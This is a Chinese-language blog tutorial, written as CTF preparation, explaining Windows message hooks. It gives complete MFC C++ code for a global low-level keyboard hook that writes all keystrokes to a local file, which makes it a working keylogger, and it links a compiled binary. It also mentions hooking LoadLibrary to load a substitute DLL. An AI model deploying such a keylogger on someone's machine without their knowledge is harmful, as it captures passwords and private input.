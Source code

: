 ```yaml
---
layout:     post
title:      Hook学习
subtitle:   kxctf中碰到了这个，不会，wp都看不懂
date:       2018-12-28
author:     gxkyrftx
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Hook
    - c++
---
```


# 0x01 hook是什么

Hook，是Windows消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理window消息或特定事件。

钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，亦即钩子函数先得到控制权。这时钩子函数即可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

划重点：监视某程序，等一个事件发生，在正常的应该处理这个事件的动作之前，先进行捕获，hook函数先执行这个事件。

# 0x02 hook的原理

举个例子，弹窗是程序中很常见的一个api(Application Programming Interface，就是开发人员预置的程序接口，使用者可以调用），常见的就是MessageBox函数,那么hook就是，我们把这个API,变为我们的API去执行,执行完我们的代码之后再去执行它的的函数。

其实相当于就是我们在这个API之前,跳转到我们的函数执行了,然后跳转之后,我们执行完毕之后,可以选择是否在跳转回去,但是这里注意,跳转回去则跳转到msg的return处位置即可。eax可以给一个值,让它返回。

利用这个技术,我们可以监控API,比如应用程序会调用loadLibrary,那我们把它Hook了,把Dll路径改成我们的,那加载的就是我们的dll了,当然 Hook的API很多,因为只要是Windows的API都能HOOK

# 0x03 hook实例-获取键盘输入

说一千道一万，最重要的还是要落实到应用，来看看怎么实现

## 1.开发环境

    windows10,vs2010
    
## 2.前期准备

    文件——>新建——>项目——>MFC——>MFC应用程序——>应用程序类型选基于对话框——>完成
    
    然后画两个按钮，如图所示

![hook1](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook1.PNG?raw=true)
    
## 3.程序实现
4.添加库与全局变量

~~~c++
#include <iostream> 

#include <string> 

#include <fstream>
 
using namespace std;
 
//全局变量
HHOOK glhHook = NULL;			//安装的鼠标勾子句柄 

BOOL g_bCapsLock = FALSE;		//大小写锁定键

BOOL g_bShift = FALSE;			//shift键

ofstream SaveFile("key.txt");
~~~
	
2.双击hook按钮，对其编程
    
```c++
	void CKeyboardHookDlg::OnBnClickedButton1() {
	string str = "start:";
	SaveFile << str << endl;
	
	glhHook = SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardProc, GetModuleHandle(NULL), NULL);
	
	//这里调用SetWindowsHookExA()函数，因为hook的实现不是在DLL中，而是直接在KeyboardHookDlg.cpp中实现，所有第3个参数使用	GetModuleHandle(NULL)
	
	if (glhHook != NULL) {
		//AfxMessageBox(L"StartHook成功！");//用于打桩测试
	} 
	else 
	{
		AfxMessageBox(L"StartHook失败！");
	}
	}
```

3.双击stophook，对其编程

```c++
	void CKeyboardHookDlg::OnBnClickedButton2() {
		UnhookWindowsHookEx(glhHook);
	}
```

4.在键盘输入了字符，处理这件事

~~~ c++
//键盘钩子回调函数
LRESULT  CALLBACK  KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	
	char c[2];
	c[1] = 0;
	if ((wParam == WM_KEYDOWN) && (HC_ACTION == nCode)) {		//有键按下
		
		KBDLLHOOKSTRUCT *  keyNum = (KBDLLHOOKSTRUCT *)lParam;
 
		//处理字母大小写
		
		if ((keyNum->vkCode == VK_CAPITAL) || (keyNum->vkCode == VK_LSHIFT) || (keyNum->vkCode == VK_RETURN) || (keyNum->vkCode >= 65 && keyNum->vkCode <= 90)) {
			
			if (!GetKeyState(VK_CAPITAL)) {	//如果大写锁定键未被按下
			
				g_bCapsLock = FALSE;
			} else {
				g_bCapsLock = TRUE;
			}
 
			if (GetAsyncKeyState(VK_LSHIFT) & 0x8000) { //如果shift键被按住
			
				g_bShift = TRUE;
			} else {
				g_bShift = FALSE;
			}
 
			if (keyNum->vkCode >= 65 && keyNum->vkCode <= 90) {
				BOOL flag = g_bCapsLock^g_bShift;//同假异真
				
				if (flag) {
					c[0] = keyNum->vkCode;
				} else {
					c[0] = keyNum->vkCode + 32;
				}
				SaveFile << (int)c[0] << " : " << c << endl;
			}
		}
		//处理数字小键盘
		
		else if (keyNum->vkCode == 144 || (keyNum->vkCode >= VK_NUMPAD0 && keyNum->vkCode <= VK_NUMPAD9)) { //144表示数字小键盘锁键
 
			if (GetKeyState(144)) {		//如果数字小键盘锁键被按下
			
				int mapKey = keyNum->vkCode - 48;
				SaveFile << keyNum->vkCode << " : " << char(mapKey) << endl;
			}
 
		} else {
			SaveFile << keyNum->vkCode << " : " << char(keyNum->vkCode) << endl;
		}
	}
	return CallNextHookEx(glhHook, nCode, wParam, lParam);
}

~~~

5.随后调试，生成解决方案

# 0x04 运行结果

将生成的MFC程序，移动至任何目录下，随后打开程序，单击hook，随意从键盘输入，观察到本目录出现了key.txt文件，打开看，就是刚才记录的值

![hook2](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook2.PNG?raw=true)

成品在这里[成品](https://github.com/gxkyrftx/kxctf2018/blob/master/%E9%A2%84%E5%A4%87%E7%9F%A5%E8%AF%86/hook/keyboard.exe)
